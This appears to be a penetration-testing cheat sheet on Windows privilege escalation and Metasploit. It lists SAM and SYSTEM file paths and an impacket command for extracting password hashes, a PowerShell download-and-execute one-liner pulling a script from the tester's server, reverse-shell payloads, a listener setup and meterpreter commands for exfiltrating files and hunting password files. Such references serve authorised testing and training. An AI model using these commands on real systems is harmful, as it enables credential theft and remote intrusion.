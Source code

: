 Getting admin hashes: Look in the below locations for password hashes
* %SYSTEMROOT%\repair\SAM 
* %SYSTEMROOT%\System32\config\RegBack\SAM 
* %SYSTEMROOT%\System32\config\SAM 
* %SYSTEMROOT%\repair\system 
* %SYSTEMROOT%\System32\config\SYSTEM 
* %SYSTEMROOT%\System32\config\RegBack\system 

Download both the SAM file and the SYSTEM file onto Kali Linux, and then run `impacket-secretdump -sam SAM -system SYSTEM local` to get the hashes.

Searching for exploits: Run [this script](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py) on Kali.

Checklists:
* [fuzzysecurity](http://www.fuzzysecurity.com/tutorials/16.html  )
* [absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

Jaws Windows Enumerate Script (Requires Powershell): The script is found [here](https://github.com/411Hall/Jaws). You can easily download and run the script using the following commands (assuming that you have a webserver setup on Kali and you have put the jaws-enum.ps1 file under /var/www/html).
```
powershell 
IEX(New-Object Net.WebClient).downloadString('http://[your IP]/jaws-enum.ps1') 
```

### Metasploit

Selecting a module:
`use [module]`

Setting a payload:
`use [payload]`

Common payloads:
* windows/shell_reverse_tcp
* windows/shell/reverse_tcp (staged)
* php/reverse_php
* windows/meterpreter/reverse_https (popular for looking just like normal web traffic)
* linux/x86/shell_reverse_tcp
* linux/x86/shell/reverse_tcp (staged)

Handle incoming connections:
```
use exploit/multi/handler
set LHOST [local IP]
set LPORT [port]
exploit
```

Common meterpreter commands:
* Upload files: `upload [local file] [remote location for file]`
* Download files: `download [remote file] [local location for file]`
* Open a shell: `shell`
* Find basic information about the target: `sysinfo`
* Get the current user: `getuid`
* Search for a file: `search –f *pass*.txt`
* Take a screenshot of the desktop: `screenshot`
